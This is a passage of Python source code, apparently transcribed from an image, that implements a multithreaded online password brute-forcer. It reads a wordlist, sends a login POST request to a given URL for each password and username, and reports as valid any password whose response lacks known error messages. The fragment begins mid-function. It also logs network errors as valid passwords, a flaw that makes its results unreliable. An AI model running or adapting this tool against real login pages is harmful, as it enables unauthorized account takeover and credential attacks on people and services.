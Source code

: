 ```python
    }

    try:
        response = requests.post(url, headers=headers, data=data, allow_redirects=True)
        if not any(error in response.text for error in invalid_errors):
            with lock:
                print(f"Got VALID password: {password}")
                valid_passwords.append(password)
        else:
            invalid_passwords.append(password)

    except requests.RequestException as e:
        valid_passwords.append(password)
        print(f"Error checking password for {user} and {password}")


def enumerate_admin_password(WORDLIST):
    threads = []
    with open(WORDLIST, 'r', encoding='latin-1') as f:
        passwords = f.readlines()
    try:
        for password in tqdm(passwords, desc=f"Bruteforcing...{user}", unit=" passwords"):
            password = password.strip()  # Remove any leading/trailing whitespace
            if password:
                thread = threading.Thread(target=check_user_password, args=(url, user, password))
                threads.append(thread)
                thread.start()

                if len(threads) >= THREAD_COUNT:
                    for t in threads:
                        t.join()
                    threads = []

        for t in threads:
            t.join()

    except KeyboardInterrupt:
        print("\nExiting program...")
        sys.exit(0)


if __name__ == "__main__":
    if len(sys.argv) != 5:
        print("Usage: python3 script.py <URL> <USER> <WORDLIST> <THREADS>")
        sys.exit(1)

    url = sys.argv[1]
    user = sys.argv[2].strip()
    WORDLIST = sys.argv[3]
    THREAD_COUNT = int(sys.argv[4].strip())
    enumerate_admin_password(WORDLIST)
    print(f"The total of invalid passwords for user {user} are: {len(invalid_passwords)}")
    print(f"The total of valid passwords for user {user} are: {len(valid_passwords)}")
    print(f"\nThese are the valid password for user {user}: {valid_passwords}")

```
